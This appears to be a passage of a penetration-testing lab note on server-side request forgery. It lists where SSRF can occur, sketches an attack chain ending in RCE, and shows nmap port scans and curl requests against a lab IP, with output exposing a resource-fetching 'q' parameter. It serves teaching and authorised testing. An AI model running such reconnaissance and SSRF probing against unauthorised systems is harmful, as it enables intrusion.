 ```Shell
curl http://127.0.0.1:8080
```
## SSRF
### Where to look for SSRF:
#### 1: Parts of HTTP requests, including URLs
#### 2: File imports such as HTML, PDFs, images, etc.
#### 3: Remote server connections to fetch data
#### 4: API specifications imports
#### 5: Dashboards including ping and similar functionalities to check server statuses

### Example Attack Flow:
|`[RED TEAM OPERATOR]`|`🠖`|`[EXERCISE-TARGET]--[SSRF]`|`🠖`|`[INTERNAL-WEBSERVER]--[SSRF]`|`🠖`|`[LOCALHOST WEBAPP]`|`🠖`|`[RCE]`|
|---|---|---|---|---|---|---|---|---|
#### Port Scan
```Shell
nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238
```
Output:
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```
#### Issue a cURL request to the target server
```Shell
curl -i -s http://10.129.201.238
```
- `-i`: Shows the protocol response headers
- `-s`: Silent mode
Output:
```
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python
Date: Mon, 18 Oct 2021 09:01:02 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/load?q=index.html">/load?q=index.html</a>. If not click the link.
```
The request redirected to `/load?q=index.html`, meaning the `q` parameter fetches the resource `index.html`
#### Use cURL to follow the redirect
```Shell
curl -i -s -L http://10.129.201.238
```
- `-L`: Follows redirects
Output:
```
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
```